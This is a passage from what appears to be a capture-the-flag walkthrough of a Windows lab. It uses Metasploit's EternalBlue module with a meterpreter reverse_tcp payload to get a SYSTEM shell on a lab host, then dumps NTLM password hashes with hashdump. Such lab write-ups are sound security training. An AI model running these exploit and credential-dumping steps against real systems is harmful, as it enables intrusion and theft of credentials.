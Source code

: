 ```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.231.72
RHOSTS => 10.10.231.72
```
**Ans: `RHOSTS`**

For payload, by default getting meterpreter shell. So we don't need to do any funrther steps, just set palyload to windows/x64/meterpreter/reverse_tcp.
- `set payload windows/x64/meterpreter/reverse_tcp`
- `set LHOST tun0`
- `run`  # this will execute out payload and get us a meterpreter tcp reverse shell





## Task 3 : Escalate

This task requires you to escalate your normal shell to meterpreter. But in our case, by default we got meter preter shell, so we don't need to do anything for escalation.

But anyway, if you land on a normal reverse shell, [follow this writeup to escalate to meterpreter shell](https://infosecwriteups.com/metasploit-upgrade-normal-shell-to-meterpreter-shell-2f09be895646)

Now let's check who are we logged in as. Type `shell` in meterpreter to get a shell and then use `whoami` command.
```bash
meterpreter > shell
Process 1968 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Okay, so we already are nt authority\system. So we don't need to migrate to any other process. else we would need to use command `migrate <pid>` to migrate to any process used by nt authority\system.

Now let's get back to out meterpreter shell. use `exit` command for this and you will land to your previous meterpreter shell.

## Task 4 : Cracking

In meterpreter shell, we have a command `hashdump` that dumps all the users and their password hashes. Let's try it out.
```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
